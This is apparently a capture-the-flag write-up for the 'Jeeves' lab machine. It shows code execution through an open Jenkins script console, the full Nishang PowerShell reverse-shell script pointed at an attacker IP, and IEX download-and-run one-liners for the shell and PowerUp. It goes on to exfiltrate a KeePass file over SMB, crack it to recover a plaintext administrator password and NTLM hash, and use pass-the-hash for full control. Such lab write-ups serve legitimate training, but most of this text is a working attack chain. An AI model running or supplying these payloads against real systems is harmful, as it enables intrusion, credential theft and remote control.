








# Jeeves

## Nmap
```bash
nmap -sC -sV -T4 -oN scan.txt $ip
```
## Nmap Result


As I went through the prot `80` and port `50000` i did not find anyting interesting so I starting doing some directory busting by ruing `feroxbuster` on the port `50000`.
## Feroxbuster
Feroxbuster found a directory `askjeeves`
```bash
feroxbuster -u http://10.129.45.32:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```


After visting the /askjeeves I was landed in the dashboard but no login credentials.

From the look of it I can see that I already have a anonymous login so I will go through the links and configurations and find where I can inject code or commands.
I found that if I go to the `Manage Jenkins` then to `Script consol` I can run command in `Groovy language`


As I run a sample command `whoami` I get the output see the screenshot for result.
```bash
cmd = "whoami"
println cmd.execute().txt
```


<!-- I search for oneline shell and found the github of `nishang` and i cloned the entired repo to my /opt and copied the Invoke-PowershellTcp.ps1 copy the highlighted line down to the bottom of the script and change the ip and port. -->

While searching for a one-liner shell, I came across the Nishang repository on GitHub. I cloned the entire repository to /opt using:

```bash
git clone https://github.com/samratashok/nishang.git /opt/nishang
```
Next, I copied the Invoke-PowerShellTcp.ps1 script and modified it by extracting the relevant lines from the highlighted section down to the end of the script. I then updated the IP address and port to match my listener configuration.

```bash hl_lines="18 127"
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
After we can host this file on the local server on port `80`

```bash
python3 -m http.server 80
```
then we can write our commmand to get the shell on the `script cosnole`

```bash
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.10:8000/rev.ps1')) """
println cmd.execute().text
```
now start the listener on the termianl for the port `8001` as we defined on the script.

```bash
nc -lvnp 8001
```
Run the script onliner on the scrip consol of `jenkins` and we get a shell.


### User flag
```bash
e3232272596fb47950d59c4cf1e7066a
```
### PrivEsc
I looked for ways to find how to get a privillage escalation. Downloaded the `powersploit1` github repo the `dev` branch with the `-b` option

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
```
copy the PowerUp.ps1 from the `privesc`  Directory and set a http server then download it to the target.

```bash
# Setting the python3 sampleHttpServer
python3 -m http.server 8000

## Copy the PowerUp.ps1 to the target machine with the already user access using the IEX WebClient
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.16:8000/PowerUp.ps1')
```
After run the Command at the bottom of the script `Invokde-AllChecks`


In the user `kohsuke` Documents directory I found a database passkey file that I can copy to my attack machine and work with it.


I will use the `impacket-smbserver` to mount share folder and transfer over the file to my attacker machine.

```bash
impacket-smbserver PleaseSubscribe 'pwd'
```
The smb server is listening on the attacker box with the PleaseSubscribe that anyone can write to.
On the victim machine we can run

```bash
New-PSDrive -Name "FollowOnX" -PSProvider "FileSystem" -Root "\\10.10.16.16\PleaseSubscribe"
```


I can now navigate to the folder by
```bash
PS C:\Users\kohsuke\Documents> cd FollowOnX:
PS FollowOnX:\> 
```
Now I can copy the file `CEH.kdbx` to the shared smb folder and access it on the attacker machine.

```bash
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
As you can see I copied the file to the attacker machine successfully.


After running `keepass2john` on **CEH.kdbx**, I extracted the hash and successfully cracked it using `hashcat`. The recovered password, `moonshine1`, was then used to access the KeePass database by running:
```bash
keepass2john CEH.kdbx
```
Upon entering the password moonshine1, I successfully logged in and retrieved the Administrator password: `S1TjAtJHKsugh9oC4VZl`.


## Pass The Hash
I copied the passwords for `administrator` and the backup which the username is just a `?` and it looks like its an `NTLM HASH` and saved it to a file.

```bash
➜  jeeves-10.129.45.32 cat password.txt                    
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: password.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ administrator:S1TjAtJHKsugh9oC4VZl
   2   │ NTLM HASH:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
I used `winexe` to login to smb

```bash
/usr/bin/winexe -U jenkins\administrator //10.129.45.32 cmd.exe
```
Password for [WORKGROUP\jenkinsadministrator]: <pass>
But it did not work so I tried PASS the NTLM Hash

```bash
/usr/bin/pth-winexe -U jenkins/administrator //10.129.45.32 cmd.exe
```
once pass the hash we get root access.


Upon accessing the Administrator desktop, I discovered a file named **hm.txt** and initially assumed it contained the root flag. However, after opening it, I realized that was not the case. The file itself hinted that I needed to dig deeper.

By analyzing alternate **data streams (ADS)**, I found that **hm.txt** contained a hidden **root.txt** file. Running `dir /r` revealed the presence of the data stream, but it did not immediately display the root flag. The next challenge was determining how to access the hidden content.
```bash
dir /r
```

I used the powershell stream command to get the content of the root.txt

```bash
powershel (Get-Content hm.txt -Stream root.txt)
```
### Root flag
```bash
afbc5bd4b615a60648cec41c6ac92530
```


